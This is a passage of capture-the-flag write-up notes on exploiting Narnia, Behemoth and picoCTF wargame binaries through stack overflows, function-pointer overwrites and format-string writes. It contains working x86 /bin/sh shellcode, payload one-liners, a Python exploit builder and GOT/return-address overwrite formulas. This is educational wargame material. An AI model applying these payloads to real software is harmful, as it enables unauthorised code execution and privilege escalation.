      0x80486d7 <main+335>:    lea    eax,[esp+0x20]
      0x80486db <main+339>:    mov    DWORD PTR [esp],eax
      0x80486de <main+342>:    mov    eax,DWORD PTR [esp+0x28]
   => 0x80486e2 <main+346>:    call   eax
      0x80486e4 <main+348>:    mov    DWORD PTR [esp],0x1
      0x80486eb <main+355>:    call   0x8048450 <exit@plt>
      0x80486f0 <__libc_csu_fini>: push   ebp
      0x80486f1 <__libc_csu_fini+1>:   mov    ebp,esp
   Guessed arguments:
   arg[0]: 0xffffd380 ("DDDD")
   Breakpoint 1, 0x080486e2 in main (argc=0x3, argv=0xffffd444) at narnia6.c:48
   48      fp(b1);
   gdb-peda$ p b1
   $1 = "DDDD\000AAA"
   gdb-peda$ p b2
   $2 = "CCCCCCCC"
   gdb-peda$ p puts
   $3 = {<text variable, no debug info>} 0xf7eb3360 <puts>
   gdb-peda$ p system
   $4 = {<text variable, no debug info>} 0xf7e8bc30 <system>
   gdb-peda$ p &b1
   $5 = (char (*)[8]) 0xffffd380
   gdb-peda$ x/50xw 0xffffd350
   0xffffd360: 0xffffd380  0xffffd5df  0x0000003b  0x0804874b
   0xffffd370: 0x00000003  0xffffd444  0x43434343  0x43434343
   0xffffd380: 0x44444444  0x41414100  0x42424242  0x00000000
   0xffffd390: 0x08048700  0xf7fb0ff4  0xffffd418  0xf7e66e46
   0xffffd3a0: 0x00000003  0xffffd444  0xffffd454  0xf7fde860
   gdb-peda$ p fp
   $6 = (int (*)(char *)) 0x42424242
   gdb-peda$ p &fp
   $7 = (int (**)(char *)) 0xffffd388
   gdb-peda$ p $fp
   $8 = (void *) 0xffffd398

 The address of fp "p &fp" is 0xffffd3888 which has a value of ("p fp") 0x42424242. As previously the stack is NoteXecutable, but stdlib.h is included in the C Program. Stdlib.h includes system call which has an address of ("p system") 0xf7e8bc30. Further DDDD overwrites AAAA with the Null byte.

 ::

   narnia6@melinda:/narnia$ ./narnia6 `python -c 'print "A"*8 + "\x40\x1c\xe6\xf7" + " " + "C"*8 + "/bin/sh"'`
   $ cat /etc/narnia_pass/narnia7


* Let's see another example where we have to use a environment variable to invoke a shell Narnia8.

 .. code:: c

    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>
    // gcc's variable reordering fucked things up
    // to keep the level in its old style i am 
    // making "i" global unti i find a fix 
    // -morla 
    int i; 

    void func(char *b){
        char *blah=b;
        char bok[20];
        //int i=0;
        
        memset(bok, '\0', sizeof(bok));
        for(i=0; blah[i] != '\0'; i++)
            bok[i]=blah[i];

        printf("%s\n",bok);
    }

    int main(int argc, char **argv){
            
        if(argc > 1)       
            func(argv[1]);
        else    
        printf("%s argument\n", argv[0]);

        return 0;
    }

 Let's see what is happening here: for loop in function func copies data from blah to bok character array until a null character is found. Let's see how the stack would look like 
 ::

    <bok character array><blah pointer><fp><ret><pointer b>

 Let's confirm this by using gdb? We put an breakpoint on printf function in the func function. 

 ::

    0xffffd670: 0x08048580  0xffffd688  0x00000014  0xf7e54f53
    0xffffd680: 0x00000000  0x00ca0000  0x41414141  0x41414141
    0xffffd690: 0x41414141  0x41414141  0x00414141  0xffffd8b1
    0xffffd6a0: 0x00000002  0xffffd764  0xffffd6c8  0x080484cd
    0xffffd6b0: 0xffffd8b1  0xf7ffd000  0x080484fb  0xf7fca000

 Address 0xffffd689 marks the start of the character buffer bok. I entered 19 A so it's 0x41 19 times followed by null 0x00. Followed by that is 0xffffd8b1 (Value of Blah pointer). Followed by fp 12 bytes <0x00000002 0xffffd764 0xffffd6c8>. Followed by 0x080484cd which is the return address

 ::

    (gdb) x/s 0x080484cd
    0x80484cd <main+31>:    "\353\025\213E\f\213"

 followed by pointer b (0xffffd8b1). Let's see what's at location 0xffffd8b1

 ::

    (gdb) x/20wx 0xffffd8b1
    0xffffd8b1: 0x41414141  0x41414141  0x41414141  0x41414141
    0xffffd8c1: 0x00414141  0x5f474458  0x53534553  0x5f4e4f49

 Let's see what happens when we try to enter more than the 19 character (buffer size of bok - 1 byte (for null character))

 ::

    narnia8@melinda:/narnia$ ./narnia8 `python -c 'print "A"*20'`
    AAAAAAAAAAAAAAAAAAAA����
    narnia8@melinda:/narnia$ ./narnia8 `python -c 'print "A"*20'` | hexdump 
    0000000 4141 4141 4141 4141 4141 4141 4141 4141
    0000010 4141 4141 d8bf ffff 0a02               
    000001a

 As expected, we get A followed by some garbage. which is the address where blah is pointing. We know that we can overwrite the RET address by

 ::

    # `python -c 'print "A"*20 + "\x90\x90\x90\x90" + "A"*12 + "BBBB"'`

 Let's see what happens when we do this. After copying 20 A it copies \x90 and makes blah pointer from 0xffffd8bf to 0xffffd890. Because of the for loop

 ::

    for(i=0; blah[i] != '\0'; i++)

 It now copies the character from 0xffffd890 reference i.e 0xffffd890 + i value. Suppose it copied the character 0x41. The address becomes 0xffff4190 and now for loop searches from that address until a null character is found.

 ::

    (gdb) x/20xw $esp
    0xffffd660: 0xffffd678  0x00000000  0x00000014  0xf7e54f53
    0xffffd670: 0x00000000  0x00ca0000  0x41414141  0x41414141
    0xffffd680: 0x41414141  0x41414141  0x41414141  0xffffd890
    0xffffd690: 0x00000002  0xffffd754  0xffffd6b8  0x080484cd
    0xffffd6a0: 0xffffd89c  0xf7ffd000  0x080484fb  0xf7fca000

    (gdb) x/10xw 0xffffd890
    0xffffd890: 0x2f61696e  0x6e72616e  0x00386169  0x41414141
    0xffffd8a0: 0x41414141  0x41414141  0x41414141  0x41414141
    0xffffd8b0: 0x90909090  0x41414141

    (gdb) x/20xw $esp
    0xffffd660: 0x08048580  0xffffd678  0x00000014  0xf7e54f53
    0xffffd670: 0x00000000  0x00ca0000  0x41414141  0x41414141
    0xffffd680: 0x41414141  0x41414141  0x41414141  0xffff4190
    0xffffd690: 0x00000002  0xffffd754  0xffffd6b8  0x080484cd
    0xffffd6a0: 0xffffd89c  0xf7ffd000  0x080484fb  0xf7fca000

    (gdb) x/10xw 0xffff4190
    0xffff4190: 0x00000000  0x00000000  0x00000000  0x00000000
    0xffff41a0: 0x00000000  0x00000000  0x00000000  0x00000000
    0xffff41b0: 0x00000000  0x00000000

 If we can somehow keep/change the blah pointer back to it's original value we may overwrite the RET pointer (after 12 bytes). Let's see how 0xffffd89c looks when is used 
 ::

    `python -c 'print "A"*20 + "\x90\x90\x90\x90" + "A"*12 + "BBBB"'`

 ::

    (gdb) x/30xw 0xffffd89c
    0xffffd89c: 0x41414141  0x41414141  0x41414141  0x41414141
    0xffffd8ac: 0x41414141  0x90909090  0x41414141  0x41414141
    0xffffd8bc: 0x41414141  0x42424242  0x47445800  0x5345535f

 When we used the below with the address, we were able to overwrite the RET by BBBB. Now, we control the EIP :)

 ::

    (gdb) run `python -c 'print "A"*20 + "\x9c\xd8\xff\xff" + "A"*12 + "BBBB"'`


    (gdb) x/20xw $esp
    0xffffd660: 0x08048580  0xffffd678  0x00000014  0xf7e54f53
    0xffffd670: 0x00000000  0x00ca0000  0x41414141  0x41414141
    0xffffd680: 0x41414141  0x41414141  0x41414141  0xffffd89c
    0xffffd690: 0x41414141  0x41414141  0x41414141  0x42424242

 Let's export a shellcode using a environment variable check it's address on the stack and redirect the flow of our code to it. Notice the number of NOPs we have put for easy identification plus reachability.

 ::

    export EGG=`python -c 'print "\x90"*90 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"'`

 Searching our environment variable we get it at address 0xffffd8d4.

 ::

    (gdb) x/100xw $esp+500
    0xffffd7e4: 0x0000000f  0xffffd80b  0x00000000  0x00000000
    0xffffd7f4: 0x00000000  0xde000000  0x1a2a5992  0xf11444ea
    0xffffd804: 0x11433cf3  0x694a71a2  0x00363836  0x672f0000
    0xffffd814: 0x73656d61  0x72616e2f  0x2f61696e  0x6e72616e
    0xffffd824: 0x00386169  0x41414141  0x41414141  0x41414141
    0xffffd834: 0x41414141  0x41414141  0xffffd828  0x41414141
    0xffffd844: 0x41414141  0x41414141  0x42424242  0x47445800
    0xffffd854: 0x5345535f  0x4e4f4953  0x3d44495f  0x35343239
    0xffffd864: 0x45485300  0x2f3d4c4c  0x2f6e6962  0x68736162
    0xffffd874: 0x52455400  0x74783d4d  0x006d7265  0x5f485353
    0xffffd884: 0x45494c43  0x353d544e  0x34392e39  0x2e31362e
    0xffffd894: 0x20343731  0x37373835  0x32322032  0x48535300
    0xffffd8a4: 0x5954545f  0x65642f3d  0x74702f76  0x31312f73
    0xffffd8b4: 0x5f434c00  0x3d4c4c41  0x47450043  0x90903d47
    0xffffd8c4: 0x90909090  0x90909090  0x90909090  0x90909090
    0xffffd8d4: 0x90909090  0x90909090  0x90909090  0x90909090
    0xffffd8e4: 0x90909090  0x90909090  0x90909090  0x90909090
    0xffffd8f4: 0x90909090  0x90909090  0x90909090  0x90909090
    0xffffd904: 0x90909090  0x90909090  0x90909090  0x90909090
    0xffffd914: 0x90909090  0x90909090  0x99580b6a  0x2f2f6852
    0xffffd924: 0x2f686873  0x896e6962  0xcdc931e3  0x53550080
    0xffffd934: 0x6e3d5245  0x696e7261  0x4c003861  0x4f435f53
    0xffffd944: 0x53524f4c  0x3d73723d  0x69643a30  0x3b31303d

 Let's redirect our program to 0xffffd8d4 to get the shell

 ::

    (gdb) run `python -c 'print "A"*20 + "\x28\xd8\xff\xff" + "A"*12 + "\xd4\xd8\xff\xff"'`
    The program being debugged has been started already.
    Start it from the beginning? (y or n) y
    Starting program: /games/narnia/narnia8 `python -c 'print "A"*20 + "\x28\xd8\xff\xff" + "A"*12 + "\xd4\xd8\xff\xff"'`

    Breakpoint 1, 0x080484a7 in func ()
    (gdb) c
    Continuing.
    AAAAAAAAAAAAAAAAAAAA(���AAAAAAAAAAAA����(���
    process 19900 is executing new program: /bin/dash
    Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
    Error in re-setting breakpoint 1: No symbol "func" in current context.
    Error in re-setting breakpoint 1: No symbol "func" in current context.
    Error in re-setting breakpoint 1: No symbol "func" in current context.
    $ 

 Trying this without gdb didn't work because the address of character array changes

 ::

    narnia8@melinda:/narnia$ ./narnia8 `python -c 'print "A"*20 + "\x28\xd8\xff\xff" + "B"*12 + "\xd4\xd8\xff\xff"'` 
    AAAAAAAAAAAAAAAAAAAA(A��
    narnia8@melinda:/narnia$ ./narnia8 `python -c 'print "A"*20 + "\x28\xd8\xff\xff" + "B"*12 + "\xd4\xd8\xff\xff"'` | hexdump
    0000000 4141 4141 4141 4141 4141 4141 4141 4141
    0000010 4141 4141 4128 ffff 0a02               
    000001a

 Changing 28 to 0a just by chance gave me the correct address to be pointed at

 ::

    narnia8@melinda:/narnia$ ./narnia8 `python -c 'print "A"*20 + "\x0a\xd8\xff\xff" + "B"*12 + "\xd4\xd8\xff\xff"'` | hexdump
    0000000 4141 4141 4141 4141 4141 4141 4141 4141
    0000010 4141 4141 d837 ffff 0a03               

 ::

    narnia8@melinda:/narnia$ ./narnia8 `python -c 'print "A"*20 + "\x37\xd8\xff\xff" + "B"*12 + "\xd4\xd8\xff\xff"'`          
    AAAAAAAAAAAAAAAAAAAA7���BBBBBBBBBBBB����7���
    $ 

 For example, below you need the address of secret to write the new value 0x1337beef.

 .. code:: c

    unsigned secret = 0xdeadbeef;

    int main(int argc, char **argv){
        unsigned *ptr;
        unsigned value;
        char key[33];
        FILE *f;
        printf("Welcome! I will grant you one arbitrary write!\n");
        printf("Where do you want to write to? ");
        scanf("%p", &ptr);
        printf("Okay! What do you want to write there? ");
        scanf("%p", (void **)&value);
        printf("Writing %p to %p...\n", (void *)value, (void *)ptr);
        *ptr = value;
        printf("Value written!\n");
        if (secret == 0x1337beef){
            printf("Woah! You changed my secret!\n");
            printf("I guess this means you get a flag now...\n");

            f = fopen("flag.txt", "r");
            fgets(key, 32, f);
            fclose(f);
            puts(key);
            exit(0);
        }
        printf("My secret is still safe! Sorry.\n");
    }


* In another challenge below, It can be easily seen the value of secret can be changed after entering 16 characters + 0xc0deface. As, 0xc0deface can't be printed as ASCII characters, you can use python to pass the input.

 ::

    python -c ' print "A" * 16 + "\xc0\xde\xfa\xce"' or python -c ' print "A" * 16 + "\xce\xfa\xde\xc0"' based on the endianess of the system.

 .. code:: C 

   void give_shell(){ 
        gid\_t gid = getegid(); 
        setresgid(gid, gid,gid); 
        system("/bin/sh -i"); }

   void vuln(char \*input){ 
        char buf[16]; 
        int secret = 0; 
        strcpy(buf,input);

    if (secret == 0xc0deface){
        give_shell();
    }else{
        printf("The secret is %x\n", secret);
    }

   }

   int main(int argc, char \*\*argv)
   { if (argc > 1) 
        vuln(argv[1]); 
        return 0; }


* Controlling the EIP: In the below challenge, an attacker can use a buffer overflow to take control of the program's execution. the return address for the call to vuln function is above buf on the stack, so it can be overwritten with an overflow. this allows an attacker to put nearly any address they desire in place of the return address. in this example, the goal is to call the give\_shell function.

 * We need to find the address of give\_shell function which can be done either by using gdb and print give\_shell or objdump -d outputfile \| grep give\_shell.
 * To know the EIP offset, you can use cyclic patterns. Use pattern\_create.rb and pattern\_offset.rb So pattern\_create.rb 100 for instance will create a 100 byte cyclic pattern. 
 * Then you feed this as your input to the vulnerable program and it will crash. so get the value of EIP at that point.
 * Then, we just need to pass the input to the program by 
 
  ::

    ./a.out $(python -c ' print "A" \* Offset + "Address of give\_shell in hex"' )

  ::
  
    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>

    /* This never gets called! */
    void give_shell(){
         gid_t gid = getegid();
         setresgid(gid, gid, gid);
         system("/bin/sh -i");
    }

    void vuln(char *input){
         char buf[16];
         strcpy(buf, input);
    }

    int main(int argc, char **argv){
         if (argc > 1)
            vuln(argv[1]);
            return 0;
    }


* Execute Me: If you check the below code, getegid() function shall return the effective group ID of the calling process., setresuid() sets the real user ID, the effective user ID, and the saved set-user-ID of the calling process. If you see, read function read the stdin into the buffer and (function\_ptf) buf() function is called which would call anything in the buffer.

 * Since, buf will execute anything, we need a shell code to fit in 128 bytes, There are plenty of shellcode (with different platforms and different working)which can be found on Shell-Storm.
 * Then, we just need to pass the input to the program by
   ::
     
     ./a.out $(python -c ' print "A" \* Offset + "Address of give\_shell in hex"' )
   
   ::

     #include <stdio.h>
     #include <stdlib.h>

     int token = 0;

     typedef void (*function_ptr)();

     void be_nice_to_people(){
         gid_t gid = getegid();
         setresgid(gid, gid, gid);
     }

     int main(int argc, char **argv){
              char buf[128];

              be_nice_to_people();
              read(0, buf, 128);
              ((function_ptr)buf)();
      }


* ROP1: This binary is running on a machine with ASLR! (Address space layout randomization (ASLR) is a computer security technique involved in protection from buffer overflow attacks.) Can you bypass it?

 * From the code provided we can see that there’s a buffer overflow in the vuln() function due to the strcpy() call. run the program within gdb and see what the state of the registers and the stack are at the time of the crash.
 * From the cylic patterns tools, we could find that offset is at 76 which could be confirmed by providing a input of 76 “A”s and 4 “B”s to overwrite EIP. set a breakpoint after the call to strcpy(); that is \*vuln+24. After the leave instruction is executed, EIP will be set to 0x424242.

 * EAX points to our buffer of “A”s and since the binary doesn’t have the NX bit, we can execute shellcode on the stack. To bypass ASLR, we just need to find an address that will do a JMP/CALL EAX and set that as our return address. msfelfscan can find a list of instructions to accomplish this:

 * Since the binary is compiled for 32 bit, searching the shellcode in Shellstorm for Linux\_x86 executing /bin/sh, we get 21 bytes shellcode in kernelpanic.

 * As EAX contains the 76\*A + BBBB when the vuln function returns, we just need to find address which will execute JMP EAX, it can be found by msfelfscan -j eax binary\_file

 * One more small but important observation is the number of NOPs, as our shellcode is 21 bytes and offset is 76 bytes and jmp is 4 bytes. So, 76 - 21 - 4 = 51.

  .. code:: python

    import struct
    code = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"
    jmpeax = struct.pack("<I",0x080483e7)
    print "\x90"*51 + code + jmpeax


  .. code:: C

    #include <stdio.h>
    #include <string.h>
    #include <stdlib.h>
 
    void be_nice_to_people(){
         gid_t gid = getegid();
         setresgid(gid, gid, gid);
     }

    void vuln(char *name){
         char buf[64];
         strcpy(buf, name);
    }

    int main(int argc, char **argv){
        be_nice_to_people();
        if(argc > 1)
           vuln(argv[1]);
           return 0;
    }



Format String Examples
**********************

Let's see a simple example of a format string vulnerabilty. 

* Narnia5

 ::  
 
   include <stdio.h>
   include <stdlib.h>
   include <string.h>

   int main(int argc, char \*\*argv){ 
        int i = 1; char buffer[64];
        snprintf(buffer, sizeof buffer, argv[1]);
        buffer[sizeof (buffer) - 1] = 0;
        printf("Change i's value from 1 -> 500. ");

        if(i==500){
          printf("GOOD\n");
          system("/bin/sh");
        }

        printf("No way...let me give you a hint!\n");
        printf("buffer : [%s] (%d)\n", buffer, strlen(buffer));
        printf ("i = %d (%p)\n", i, &i);
        return 0;
   }
   
 Let's try to see what's on stack and if we can put something on stack and change the value of i.

 ::

  narnia5@melinda:~$ /narnia/narnia5
  %08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x Change i's value from 1 -> 500.
  No way...let me give you a hint! buffer :
  [f7eb6de6.ffffffff.ffffd6ae.f7e2ebf8.62653766.36656436.6666662e.] (63) i
  = 1 (0xffffd6cc)

        narnia5@melinda:~$ /narnia/narnia5
        AAAA%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x Change i's value from 1 ->
        500. No way...let me give you a hint! buffer :
        [AAAAf7eb6de6.ffffffff.ffffd6ae.f7e2ebf8.41414141.62653766.36656] (63) i
        = 1 (0xffffd6cc)

        narnia5@melinda:~$ /narnia/narnia5
        ``python -c 'print "\xcc\xd6\xff\xff%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x"'``
        Change i's value from 1 -> 500. No way...let me give you a hint! buffer
        : [����f7eb6de6.ffffffff.ffffd6ae.f7e2ebf8.ffffd6cc.62653766.36656] (63)
        i = 1 (0xffffd6cc)

        narnia5@melinda:~$ /narnia/narnia5
        ``python -c 'print "\xcc\xd6\xff\xff%08x.%08x.%08x.%08x.%08n.%08x.%08x.%08x"'``
        Change i's value from 1 -> 500. No way...let me give you a hint! buffer
        : [����f7eb6de6.ffffffff.ffffd6ae.f7e2ebf8..62653766.36656436.6666] (63)
        i = 40 (0xffffd6cc)

        narnia5@melinda:~$ /narnia/narnia5
        ``python -c 'print "\xcc\xd6\xff\xff%08x.%08x.%08x.%468x.%08n.%08x.%08x.%08x"'``
        Change i's value from 1 -> 500. GOOD $ 


* In this example, let's see use of arbitary writing an address Narnia7

 .. code:: c

    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>
    #include <stdlib.h>
    #include <unistd.h>

    int goodfunction();
    int hackedfunction();

    int vuln(const char *format){
            char buffer[128];
            int (*ptrf)();

            memset(buffer, 0, sizeof(buffer));
            printf("goodfunction() = %p\n", goodfunction);
            printf("hackedfunction() = %p\n\n", hackedfunction);

            ptrf = goodfunction;
            printf("before : ptrf() = %p (%p)\n", ptrf, &ptrf);

            printf("I guess you want to come to the hackedfunction...\n");
            sleep(2);
            ptrf = goodfunction;
      
            snprintf(buffer, sizeof buffer, format);

            return ptrf();
    }

    int main(int argc, char **argv){
            if (argc <= 1){
                    fprintf(stderr, "Usage: %s <buffer>\n", argv[0]);
                    exit(-1);
            }
            exit(vuln(argv[1]));
    }

    int goodfunction(){
            printf("Welcome to the goodfunction, but i said the Hackedfunction..\n");
            fflush(stdout);
            
            return 0;
    }

    int hackedfunction(){
            printf("Way to go!!!!");
        fflush(stdout);
            system("/bin/sh");

            return 0;
    }

 If we see, the program provides us with the address of the ptrf pointer, goodfunction and bad function. The ptrf is assigned the address of goodfunction if we somehow change it to address of the badfunction, we can get a shell. Let's run the program and see what are the address we get.

 ::

    ./narnia71 A
    goodfunction() = 0x804871f
    hackedfunction() = 0x8048745

    before : ptrf() = 0x804871f (0xffb4450c)
    I guess you want to come to the hackedfunction...
    Welcome to the goodfunction, but i said the Hackedfunction..

 and

 ::

    narnia7@melinda:/narnia$ ./narnia7 A
    goodfunction() = 0x80486e0
    hackedfunction() = 0x8048706

    before : ptrf() = 0x80486e0 (0xffffd64c)
    I guess you want to come to the hackedfunction...
    Welcome to the goodfunction, but i said the Hackedfunction..

 The reason I have added two running instances is because in the first instance the address is different by one byte 0x1f and 0x45 where as in the second instance the address differs by two bytes 0x86e0 and 0x8706. We can write two bytes by %hn and one byte by %hhn. We can write whole 4 byte address by following a formula

 ::

    If HOB < LOB

    HOB:0x0804
    LOB:0x8706

    [addr+2][addr] = \x4e\xd6\xff\xff\x4c\xd6\xff\xff
    %.[HOB - 8]x   = 0x804 - 8 = 7FC (2044) = %.2044x
    %[offset]$hn   = %6\$hn
    %.[LOB - HOB]x = 0x8706 - 0x804 = 7F02 (32514) = %.32514x
    %[offset+1]$hn = %7\$hn

    `python -c 'print "\x4e\xd6\xff\xff\x4c\xd6\xff\xff" +"%.2044x%6\$hn %.32514x%7\$hn"'`

 We also need to find the offset where the address is stored which can be done by two methods: Either compiling the program on local machine and checking the buffer just after snprintf

 ::

    gdb-peda$ p buffer 
    $2 = "AAAA.000008a2.f7fdeb58.f7fde860.0804835c.0804871f.41414141.3030302e.61383030", '\000' <repeats 51 times>

 or by using ltrace

 ::

    narnia7@melinda:/narnia$ ltrace ./narnia7 `python -c 'print "AAAA" + ".%08x"*7'`
    __libc_start_main(0x804868f, 2, 0xffffd764, 0x8048740 <unfinished ...>
    memset(0xffffd620, '\0', 128)                                                                                          = 0xffffd620
    printf("goodfunction() = %p\n", 0x80486e0goodfunction() = 0x80486e0
    )                                                                             = 27

    )                                                                         = 30
    printf("before : ptrf() = %p (%p)\n", 0x80486e0, 0xffffd61cbefore : ptrf() = 0x80486e0 (0xffffd61c)
    )                                                           = 41
    puts("I guess you want to come to the "...I guess you want to come to the hackedfunction...
    printf("hackedfunction() = %p\n\n", 0x8048706hackedfunction() = 0x8048706
    )                                                                            = 50
    sleep(2)                                                                                                               = 0
    snprintf("AAAA.08048238.ffffd678.f7ffda94."..., 128, "AAAA.%08x.%08x.%08x.%08x.%08x.%0"..., 0x8048238, 0xffffd678, 0xf7ffda94, 0, 0x80486e0, 0x41414141, 0x3038302e) = 67
    puts("Welcome to the goodfunction, but"...Welcome to the goodfunction, but i said the Hackedfunction..
    )                                                                            = 61
    fflush(0xf7fcaac0)                                                                                                     = 0
    exit(0 <no return ...>
    +++ exited (status 0) +++

 If you see 0x41414141 is at offset 6.

 ::

    gdb-peda$ p ptrf
    $3 = (int (*)()) 0x804871f <goodfunction>
    gdb-peda$ p &ptrf
    $4 = (int (**)()) 0xffffd2ec
    gdb-peda$ x /10xb 0xfffd3ea
    0xfffd3ea:  Cannot access memory at address 0xfffd3ea
    gdb-peda$ x /10xb 0xffffd3ea
    0xffffd3ea: 0x3f    0x77    0x00    0x00    0x00    0x00    0x00    0x00
    0xffffd3f2: 0x00    0x00
    gdb-peda$ x /10xb 0xffffd2ea
    0xffffd2ea: 0x04    0x08    0x1f    0x87    0x04    0x08    0x41    0x41
    0xffffd2f2: 0x41    0x41
    gdb-peda$ p goodfunction 
    $5 = {int ()} 0x804871f <goodfunction>
    gdb-peda$ p ha
    hackedfunction  hasmntopt       
    gdb-peda$ p hackedfunction 
    $6 = {int ()} 0x8048745 <hackedfunction>

 ::

    gdb-peda$ p &ptrf 
    $10 = (int (**)()) 0xffffd2fc
    gdb-peda$ run `python -c 'print "\xfc\xd2\xff\xff" + ".%08x"*5 + "%hhn"'`
    gdb-peda$ p ptrf 
    $12 = (int (*)()) 0x8048731 <goodfunction+18>
    gdb-peda$ x /10xb 0xffffd2fa
    0xffffd2fa: 0x04    0x08    0x31    0x87    0x04    0x08    0xfc    0xd2
    0xffffd302: 0xff    0xff


* Let's see another example Behemoth3 where we have only the assembly code of the program and we exploit this by two methods by overwriting the GOT address or overwriting the return address.

 Assembly Source Code:

 ::

    (gdb) disassemble main 
    Dump of assembler code for function main:
       0x0804847d <+0>: push   %ebp
       0x0804847e <+1>: mov    %esp,%ebp
       0x08048480 <+3>: and    $0xfffffff0,%esp
       0x08048483 <+6>: sub    $0xe0,%esp
       0x08048489 <+12>:    movl   $0x8048570,(%esp)
       0x08048490 <+19>:    call   0x8048330 <printf@plt>
       0x08048495 <+24>:    mov    0x80497a4,%eax
       0x0804849a <+29>:    mov    %eax,0x8(%esp)
       0x0804849e <+33>:    movl   $0xc8,0x4(%esp)
       0x080484a6 <+41>:    lea    0x18(%esp),%eax
       0x080484aa <+45>:    mov    %eax,(%esp)
       0x080484ad <+48>:    call   0x8048340 <fgets@plt>
       0x080484b2 <+53>:    movl   $0x8048584,(%esp)
       0x080484b9 <+60>:    call   0x8048330 <printf@plt>
       0x080484be <+65>:    lea    0x18(%esp),%eax
       0x080484c2 <+69>:    mov    %eax,(%esp)
       0x080484c5 <+72>:    call   0x8048330 <printf@plt>
       0x080484ca <+77>:    movl   $0x804858e,(%esp)
       0x080484d1 <+84>:    call   0x8048350 <puts@plt>
       0x080484d6 <+89>:    mov    $0x0,%eax
       0x080484db <+94>:    leave  
       0x080484dc <+95>:    ret    
    End of assembler dump.

 Observed Behavior:

 ::

    behemoth3@melinda:/tmp/rahul3$ ./behemoth3 
    Identify yourself: HelloCheck123
    Welcome, HelloCheck123

    aaaand goodbye again.

 Well, we tried to provide a very large input to the Identify yourself, but it didn't not gave a segmentation fault. Let's try format string:

 ::

    behemoth3@melinda:/tmp/rahul3$ echo `python -c 'print "A"*4 + ".%08x"*7'` | ./behemoth3 
    Identify yourself: Welcome, AAAA.000000c8.f7fcac20.00000000.00000000.f7ffd000.41414141.3830252e

    aaaand goodbye again.

 Trying simple format string provided us with the offset of our format string. Now we can write almost any address with any value with our input. Before that let's put a environment variable shellcode and check it's address:

 ::

    export EGG=`python -c 'print "\x90"*90 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"'`

 Let's core dump the binary using %s and examine the core. Our shellcode can be reached at 0xffffd8f0

 * Either we can overwrite the return address (main+95): Let's debug the program set the breakpoint at main+95 and see the value of $esp which would be use to find the return address when binary is executed without gdb. The valueis 0xf7e3ba63 and the return address which needed to be overwrriten is 0xffffd65c. Let's again core dump the binary to see the return address without gdb.

  ::

    (gdb) find $esp,+2000,0xf7e3ba63
    0xffffd66c
    1 pattern found.

  So, if we overwrite the return address at 0xffffd66c with our shellcode value of 0xffffd8f0, we should get a shell. 

  ::

     python -c 'print "\x5e\xd6\xff\xff\x5c\xd6\xff\xff" +"%.65527x%6$hn %.55503x%7$hn"' > input98

  This is little tricky because we might have to guess the return address without gdb. Previously it was coming 0xffffd66c but we got shell using 0xffffd65c.

 * overwrite the puts GOT address: Find the GOT address of puts which is 0x08049790 and overwrite it with

  ::

   python -c 'print "\x92\x97\x04\x08\x90\x97\x04\x08" +"%.65527x%6$hn %.55503x%7$hn"'


* In the below code, if we can somehow set the value of secret to 1337, we can get a shell on the system to read the flag. Also, the printf function directly prints the argument whatever is passed by the user. By concepts above, we need to find the address of secret and write to it. Address of the secret can be found by gdb or objdump. Either the address would be already present on stack or it can be put on stack.

 .. code:: c

    #include <stdio.h>
    #include <stdlib.h>
    #include <fcntl.h>

    int secret = 0;

    void give_shell(){
        gid_t gid = getegid();
        setresgid(gid, gid, gid);
        system("/bin/sh -i");
    }

    int main(int argc, char **argv){
        int *ptr = &secret;
        printf(argv[1]);

        if (secret == 1337){
            give_shell();
        }
        return 0;
    }

 Reading the address

 ::

    pico83515@shell:/home/format$ gdb -q format
    Reading symbols from format...(no debugging symbols found)...done.
    (gdb) p $secret
    $1 = void
    (gdb) p &secret
    $2 = (<data variable, no debug info> *) 0x804a030 <secret>

 Now we have to find whether is this address present on the stack? If not, we can put this address on the stack because of the format string vulnerability.

 ::

    pico83515@shell:/home/format$ ./format %08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x
    ffffd774.ffffd780.f7e4f39d.f7fc83c4.f7ffd000.0804852b.0804a030.08048520.00000000

 We see that the address is present on the stack at the seventh position. Otherwise, we can put it on the stack by

 ::

    for i in {1..256};do echo -n "Offset: $i:"; env -i ./format AAAA%$i\$x;echo ;done | grep 4141

 What this is doing is "Extracting particular stack content by "%$i$x". As we have seen in DMA, $x can be used to extract particular stack content and reading it. $i value changes from 1-256. However, as you add more data, the offset of your original input changes, so go ahead and add 1333 more bytes of data and see what the offset is then. (1337 is what we want to put into secret, and we will have written four bytes (AAAA), so 1333+4 = 1337)

 ::

    or i in {1..256};do echo -n "Offset: $i:"; env -i ./format AAAA%$i\$x%1333u;echo ;done | grep 4141
    Offset: 103:AAAA41410074
    Offset: 104:AAAA31254141

 So we found our A’s again, but they aren’t aligned on the stack. Lets add two more A’s at the end to see if we can get it to line up.

 ::

    for i in {1..256};do echo -n "Offset: $i:"; env -i ./format AAAA%$i\$x%1333uAA;echo ;done | grep 41414141
    Offset: 103:AAAA41414141

 It looks like the address 0x0804a030 is getting placed in \*ptr. That’s the address we need to use in place of our A’s. In order to place the number 1337 into secret’s memory address, we need to use the %n modifier. (%103$n will look at the data located at offset 103 as a memory address, and write the total number of bytes we have written so far into that address.) 
 ::

   pico1139@shell:/home/format$: env -i ./format $:`(python -c 'print "\x30\xa0\x04\x08"+"%1333u%103`\ nAA"') 
   $ id
   uid=11066(pico1139) gid=1008(format) groups=1017(picogroup) $ ls
   Makefile flag.txt format format.c $ cat flag.txt
   who\_thought\_%n\_was\_a\_good\_idea?

 Otherwise as the address at the seventh is already present on stack we can also do
 ::

  plain pico83515@shell:/home/format$ ./format "%1337u%7$n"

 We used DMA to access the memory, so written 1337 directly at the address pointed by the 7th position. Otherwise, we can use the basic
 
 ::

  ./format %08x.%08x.%08x.%08x.%08x.%1292u%n 
  
